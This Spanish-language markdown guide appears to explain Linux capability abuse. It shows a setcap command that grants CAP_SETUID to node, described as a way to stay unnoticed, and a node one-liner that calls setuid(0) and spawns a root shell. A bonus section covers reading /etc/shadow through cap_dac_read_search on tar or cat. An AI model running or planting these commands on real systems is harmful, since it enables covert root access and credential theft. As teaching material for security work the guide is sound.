



# Capabilities

## Premisa

**CAP_SETUID** parece la capability mas directa para asegurar una escalada de privilegios rápida, que al final, es lo que andamos buscando. En este caso vamos a asignarle dicha capability a node, una herramienta muy utilizada en entornos de desarrollo por lo que quizá logremos que pase un poco desapercibida

### Pasos a seguir

1. Le asignamos la capability al binario
```
sudo setcap cap_setuid+ep /usr/bin/node
```
2. Entramos con el usuario que queremos usar para escalar privilegios y ejecutamos la siguiente línea.
```
node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
```

3. Y... root  



## Bonus

Investigando un poco mas(En GTFObins solo mencionan la capability cap_setuid), me he encontrado con algunas situaciones plausibles de mal uso de otra capabilities como **cap_dac_read_search**. En este caso por ejemplo podríamos encontrarnos con que un administrador le ha asignado esta capability por ejemplo, al binario tar(o zip, o algún binario que pueda usarse como excusa para realizar algún tipo de backup).

Esta capabilty otorga permisos de lectura a la aplicación en cuestión.  
### ¿Porque podría darse el caso?
Bueno, en un entorno de producción podemos encontrarnos con carpetas que no sean legibles por "otros", como pueden ser algunas carpetas de tomcat donde ```/var/log/tomcat9``` no están accesibles(por lo que incluso en un descuido mayor, hasta podríamos encontrarnos esta capability incluso en cat, tail... etc) o incluso en situaciones donde se haya diseñado algún tipo de política de backups que explote esta capability(sin permiso de lectura no se pueden copiar ficheros y por lo tanto hacer un respaldo de ellos)  
### ¿Donde está el peligro?
Pues sencillamente, una aplicación con esta capability podría tener acceso a ficheros como ```/etc/shadow``` y darle al atacante una información valiosísima.


